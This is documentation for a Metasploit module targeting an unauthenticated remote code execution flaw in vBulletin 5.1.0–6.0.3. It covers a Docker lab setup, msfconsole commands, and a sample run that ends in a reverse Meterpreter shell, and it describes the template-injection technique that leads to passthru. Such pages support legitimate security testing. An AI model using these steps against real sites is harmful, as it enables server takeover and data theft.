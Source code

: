 ## Vulnerable Application

This Metasploit module exploits a design flaw in vBulletin’s AJAX API handler and template
rendering system, affecting **vBulletin 5.1.0 through 6.0.3** on **PHP 8.1+**.
An unauthenticated attacker can invoke the protected `vB_Api_Ad::replaceAdTemplate()` method to inject a malicious template that calls
`passthru(base64_decode($_POST[<param>]))`, then trigger execution via the `ajax/render/ad_<location>` endpoint,
yielding arbitrary code execution as the webserver user.

> **Note:** vBulletin is commercial software and is **not** included here. You must obtain a licensed copy and extract it under `./upload/`.

---

## To replicate vulnerable environments

1. **vBulletin 6.0.1 (tested)**

   * Purchase and download vBulletin 6.0.1 from the official portal.
   * Extract all files into `./upload/`.

2. **Other versions (5.1.0–6.0.3)**

   * Repeat the above with any of the supported versions.
   * Ensure you run on PHP 8.1+; earlier PHP versions do not expose this flaw.

---

## Docker Compose Configuration

```yaml
services:
  db:
    image: mysql:5.7
    container_name: vbulletin_db
    restart: unless-stopped
    environment:
      MYSQL_ROOT_PASSWORD: root_password_here
      MYSQL_DATABASE: vbulletin
      MYSQL_USER: vbulletin
      MYSQL_PASSWORD: vb_password_here
    volumes:
      - db_data:/var/lib/mysql

  web:
    build: .
    container_name: vbulletin_web
    depends_on: [db]
    ports: ["8888:80"]
    volumes:
      - ./do_not_upload:/opt/vbulletin-tools:ro
    environment:
      VB_DB_HOST: db
      VB_DB_NAME: vbulletin
      VB_DB_USER: vbulletin
      VB_DB_PASS: vb_password_here

volumes:
  db_data:
```

Create the following **Dockerfile** and **docker-entrypoint.sh** in the same directory:

**Dockerfile**

```dockerfile
FROM php:8.1-apache

COPY upload/ /var/www/html/
COPY do_not_upload/ /opt/vbulletin-tools/

RUN apt-get update && \
    apt-get install -y --no-install-recommends \
       libzip-dev zlib1g-dev libonig-dev \
       libpng-dev libjpeg-dev libfreetype6-dev && \
    docker-php-ext-install \
       zip mysqli pdo_mysql gd mbstring && \
    a2enmod rewrite && \
    rm -rf /var/lib/apt/lists/*

RUN echo "phar.readonly=Off" > /usr/local/etc/php/conf.d/vbulletin.ini

COPY docker-entrypoint.sh /usr/local/bin/
RUN chmod +x /usr/local/bin/docker-entrypoint.sh
ENTRYPOINT ["docker-entrypoint.sh"]
CMD ["apache2-foreground"]
```

**docker-entrypoint.sh**

```bash
#!/bin/bash
chown -R www-data:www-data /var/www/html
exec "$@"
```

---

## Verification Steps

1. **Start the environment**
```bash
docker-compose up -d
```

2. **Install vBulletin**
Browse to [http://localhost:8888](http://localhost:8888) and complete the installer:

* **Database Host:** db
* **DB Name:** vbulletin
* **DB User:** vbulletin / vbpass

3. **Run `msfconsole`**

```bash
use exploit/multi/http/vbulletin_replace_ad_template_rce
set RHOSTS 127.0.0.1
set RPORT 8888
set TARGETURI /
check
```
* You should see:
```bash
[*] Detected vBulletin version: 6.0.1
[*] 127.0.0.1:8888 - The target appears to be vulnerable. vBulletin version 6.0.1 is likely vulnerable (< 6.0.4)
```

---

## Options

No option

---

## Scenarios

### Unauthenticated Pre-Auth RCE

1. Ensure vBulletin 5.1.0–6.0.3 is installed and running on PHP 8.1+.
2. In `msfconsole`, configure and run:

```bash
set RHOSTS localhost
set RPORT 8888
set TARGETURI /
```

---

## Expected Results

### With `cmd/linux/http/x64/meterpreter/reverse_tcp`

```plaintext
msf6 exploit(multi/http/vbulletin_replace_ad_template_rce) > run http://lab:8888
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected vBulletin version: 6.0.1
[+] The target appears to be vulnerable. vBulletin version 6.0.1 is likely vulnerable (< 6.0.4)
[*] Injecting RCE template at location 'MDb' with POST param 'YHp'
[*] Triggering payload execution via routestring 'ajax/render/ad_MDb'
[*] Sending stage (3045380 bytes) to 172.28.0.3
[*] Meterpreter session 9 opened (192.168.1.36:4444 -> 172.28.0.3:45980) at 2025-05-23 22:46:22 +0200

meterpreter > sysinfo
Computer     : 172.28.0.3
OS           : Debian 12.11 (Linux 6.14.6-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
